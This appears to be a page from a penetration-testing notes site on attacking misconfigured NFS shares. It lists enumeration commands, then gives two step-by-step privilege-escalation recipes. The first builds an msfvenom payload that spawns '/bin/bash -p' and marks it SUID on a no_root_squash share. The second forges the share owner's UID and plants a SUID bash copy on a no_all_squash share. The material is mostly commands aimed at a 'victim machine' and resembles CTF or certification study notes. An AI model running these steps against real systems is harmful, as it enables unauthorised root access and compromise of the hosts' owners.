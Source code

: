 ```yaml
---
title: NFS Share
parent: Method
layout: default
nav_order: 6
---
```


By default, access in share follows the UID and GID (except root which default root squash)

Show the mounts available: `showmount -e IP`

nmap command: `nmap –sV –script=nfs-showmount IP`

Mount: `mount -o rw,vers=2 target:share localdirectory`

`cat /etc/fstab` (to see any mount)


## no_root_squash
1. `cat /etc/fstab`
   (to see any mount)
2. Check on the victim machine for /etc/exports: `cat /etc/exports` and see if got no_root_squash
3. Confirm the share: `showmount -e IP`
4. Create a mountpoint and mount it:\
   `mkdir /tmp/nfs`\
   `mount -o rw, vers=2 IP:/sharepath /tmp/nfs`
5. On your Kali generate the payload and save it inside the share:\
   `msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`
6. Add executable by everyone and SUID bit so that can run as root:\
   `chmod +xs /tmp/nfs/shell.elf`
7. On the target machine execute the file to get root shell.

## no_all_squash
1. `cat /etc/fstab`
   (to see any mount)
2. Check on the victim machine for /etc/exports: `cat /etc/exports` and see if got no_all_squash (or lack of all_squash which also is equals to no_all_squash)
3. Confirm the share: `showmount -e IP`
4. Create a mountpoint and mount it:\
   `mkdir /tmp/nfs`\
   `mount -o rw, vers=2 IP:/sharepath /tmp/nfs`
5. Check `ls -la` to see what is the UID and GID of the share.
6. Add a user with same UID: `useradd username -u UID`, create a password for the user using `passwd username` to add a password and switch to the user using `su username`.
7. Copy `/bin/bash` to the share and set it with SUID bit:\
   `cp /bin/bash .`\
   `chmod 7777 bash`
8. On the target machine execute the bash file with parameter `-p` to run as that user.